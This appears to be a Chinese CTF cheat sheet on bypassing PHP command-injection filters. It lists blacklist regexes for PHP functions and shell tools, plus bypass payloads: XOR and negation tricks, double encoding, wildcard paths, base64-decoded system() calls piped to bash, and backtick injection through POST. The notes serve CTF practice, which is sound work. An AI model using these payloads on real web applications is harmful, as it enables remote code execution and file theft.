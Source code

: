 ```
                 exec|shell_exec|system|^|~|`|passthru|proc_open|phpinfo|popen|dl|eval|proc_terminate|touch|escapeshellcmd|escapeshellarg|assert|substr_replace|call_user_func_array|call_user_func|array_filter|array_walk|array_map|registregister_shutdown_function|register_tick_function|filter_var|filter_var_array|uasort|uksort|array_reduce|array_walk|array_walk_recursive|pcntl_exec|fopen|fwrite|file_put_contents|unserialize
                 phar|iconv|UCS|UTF|rot|quoted|base64|%|toupper|tolower|dechunk|\.\.|index|function|zlib|strip_tags
                 windows下 type flag.php
                 Linux      cat flag.php
                 输出 print_r, vardump(array), 把array 转字符串
                 preg_match() 在匹配一次后停止搜索。
                 preg_match 可以用数组绕过见 NSSCTF prize_p1 脚本2
                 str_replace(ar1, ar2, "he") , 可用数组绕过, 1对1替换。见 ### str_replace
                 exec 函数可以同时执行多个命令 , 只需要用 \n 分隔即可

                 未过滤()取反绕过 $arg = "};(~(" . ~'system' . ")) (~(" . ~'cat Tru3flag.php' . "));//";
                 -- ctfshow 红包题第二弹（无数字字母RCE） -- 见下面
                    .表示 source
                    <?=是echo()的别名用法, 先用?>闭合一下，即?><?=`ls`;
                 -- ### [无字母数字webshell之提高篇  ?c=.+/???/????????[@-[]        //[@-[]表示A-Z之间
                 -- 用异或绕
                    eval("("%0b%08%0b%09%0e%06%0f"^"%7b%60%7b%60%60%60%60")();")     -- ("phpinfo")();
                 -- 二次编码绕过  php://base64 => php://bas%256564, 二次编码e => %2565
                 -- base_convert(696468,10,36);  => exec, 超过10会使用字母 - 见_writeup_web: love math
                 -- 动态函数 $function = "sayHello";$function();
                 -- exec+getheaders绕过, 见Love math
                 -- strlen($_GET[1])<4 见 nl/od -- ctfshow 【nl】难了
                 -- strlen(数组) == null, 可绕很多
                 -- ### 过滤空格
                 -- ### 文件读取
                 -- ### 黑名单绕过
                 -- ### 绕过escapeshellcmd
                 -- ### basename 绕过 - php会把.和[解析成_，php特性
                 -- ### 无写入权限 - 见## 没有写入权限
                 -- ### 死亡die/exit绕过 

        Linux -- /dir/ls|bash|tac|nl|more|less|head|base64|wget|curl|tail|vi|cat|tee|od|grep|sed|bzmore|bzless|pcre|paste|python|diff|file|echo|touch|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i
              绕过技巧:  base64-- echo "bHMgLWxoYSAv"|base64 -d|bash > test.png
              写入文件: dir |tee 1.txt
              新建文件: touch 1.txt


        php绕过技巧 $a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
                   ca""t
                   base64|$a = base64_decode('c3lzdGVt');$b=base64_decode('Y2F0IGNvbmZpZy5waHA=');$a($b);
                   assert闭合|assert(base64_decode(%27c3lzdGVtKCdjYXQgY29uZmlnLnBocCcp%27))?>|
                   POST传参|?c=echo `$_POST[1]`?>|然后POST中-- 1=cat config.php
                   POST传参|?c=echo `$_POST[1]`;|然后POST中-- 1=cat config.php
                   通配符?和数字没有过滤 -- preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c))
                         ?c=bin/base64 flag.php => ?c=/???/????64 ????????

        linux命令 nl|od
 

    16进制 0x38e
    异或 200^800
        id=1000 -- preg_match("/\'|\"|or|\||\-|\\\|\/|\\*|\<|\>|\!|x|hex|\(|\)|\+|select/i",$id)  --> id=144^888

```